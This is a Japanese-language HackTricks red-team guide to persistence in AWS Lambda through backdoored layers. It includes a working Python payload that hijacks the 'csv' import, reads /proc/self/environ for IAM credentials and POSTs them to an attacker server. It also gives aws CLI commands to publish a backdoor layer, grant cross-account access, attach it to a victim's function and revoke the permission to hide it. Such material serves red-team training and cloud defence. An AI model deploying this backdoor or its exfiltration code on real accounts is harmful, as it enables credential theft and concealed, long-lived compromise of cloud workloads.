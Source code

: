 # AWS - Lambda Layers Persistence

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有する。

</details>

## Lambda Layers

Lambdaレイヤーは、**追加のコード**やその他のコンテンツを含むことができる.zipファイルアーカイブです。レイヤーにはライブラリ、[カスタムランタイム](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、データ、または設定ファイルが含まれることがあります。

**関数ごとに最大五つのレイヤー**を含めることができます。関数にレイヤーを含めると、**内容は実行環境の`/opt`ディレクトリに抽出されます**。

**デフォルトでは**、作成した**レイヤーは**AWSアカウントに**プライベート**です。他のアカウントとレイヤーを**共有する**か、レイヤーを**公開する**ことを選択できます。異なるアカウントが公開したレイヤーを関数が使用している場合、そのレイヤーバージョンが削除された後やレイヤーへのアクセス権が取り消された後でも、関数は**引き続きレイヤーバージョンを使用できます**。ただし、削除されたレイヤーバージョンを使用して新しい関数を作成したり、関数を更新したりすることはできません。

コンテナイメージとしてデプロイされた関数はレイヤーを使用しません。代わりに、イメージをビルドするときに、好みのランタイム、ライブラリ、その他の依存関係をコンテナイメージにパッケージします。

### Pythonのロードパス

LambdaでPythonが使用するロードパスは以下の通りです：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
**二番目**と三番目の**位置**が、**lambdaレイヤー**がファイルを解凍するディレクトリである**`/opt/python/lib/python3.9/site-packages`**と**`/opt/python`**によって占められているかを確認します。

{% hint style="danger" %}
攻撃者が使用されているlambda**レイヤー**を**バックドア**したり、共通ライブラリがロードされたときに**任意のコードを実行する**新しいレイヤーを**追加**した場合、lambdaの呼び出し毎に悪意のあるコードを実行することができます。
{% endhint %}

したがって、必要条件は以下の通りです：

* 被害者のコードによって**ロードされるライブラリをチェック**する
* **カスタムコードを実行**し、元のライブラリを**ロードするプロキシライブラリをlambdaレイヤーで作成**する。

### 事前にロードされたライブラリ

{% hint style="warning" %}
この技術を悪用する際に一つの困難に直面しました：あなたのコードが実行されるときに、いくつかのライブラリはpythonランタイム内で**既にロードされています**。`os`や`sys`などがロードされていると予想していましたが、**`json`ライブラリまでもがロードされていました**。\
この永続性技術を悪用するためには、コードが実行されるときに**ロードされていない新しいライブラリをロードする必要があります**。
{% endhint %}

以下のようなpythonコードを使用すると、lambda内のpythonランタイムで**事前にロードされているライブラリのリスト**を取得することができます：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
これが**リスト**です（`os`や`json`のようなライブラリが既にあるか確認してください）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
以下は、**lambdaがデフォルトでインストールしている** **ライブラリ**のリストです：[https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer バックドアリング

この例では、ターゲットのコードが**`csv`**をインポートしているとしましょう。私たちは**`csv`ライブラリのインポートをバックドアする**つもりです。

そのために、lambdaによってロードされるパス**`/opt/python/lib/python3.9/site-packages`**に**`__init__.py`**ファイルを含む**csvディレクトリを作成します。**\
そして、lambdaが実行され**csv**をロードしようとすると、私たちの**`__init__.py`ファイルがロードされ実行されます。**\
このファイルは以下を行う必要があります：

* ペイロードを実行する
* 元のcsvライブラリをロードする

これらは以下のようにして行うことができます：
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
次に、このコードを**`python/lib/python3.9/site-packages/__init__.py`**のパスにzipで作成し、lambdaレイヤーとして追加します。

このコードは[**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)で見つけることができます。

統合されたペイロードは、**最初に呼び出された時、またはlambdaコンテナのリセット後**（コードの変更やコールドlambdaの場合）にIAMクレデンシャルをサーバーに**送信しますが**、以下のような**他のテクニック**も統合される可能性があります：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部レイヤー

**外部アカウントからのlambdaレイヤー**を使用することが可能であることに注意してください。さらに、lambdaは権限がなくても外部アカウントのレイヤーを使用できます。\
また、lambdaが持つことができる**レイヤーの最大数は5つ**であることも覚えておいてください。

したがって、このテクニックの多様性を高めるために、攻撃者は以下のようなことができます：

* ユーザーの既存のレイヤーにバックドアを仕掛ける（外部のものは何もない）
* **自分のアカウントで**レイヤーを**作成し**、**被害者アカウントにレイヤーを使用する権限を与え**、被害者のLambdaで**レイヤーを設定し**、**権限を削除する**。
* **Lambda**は引き続き**レイヤーを使用でき**、**被害者は**レイヤーのコードを**ダウンロードする簡単な方法を持たない**でしょう（lambda内でリバースシェルを取得する以外に）
* 被害者は**`aws lambda list-layers`**を使用しても**外部レイヤーを見ることはできない**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

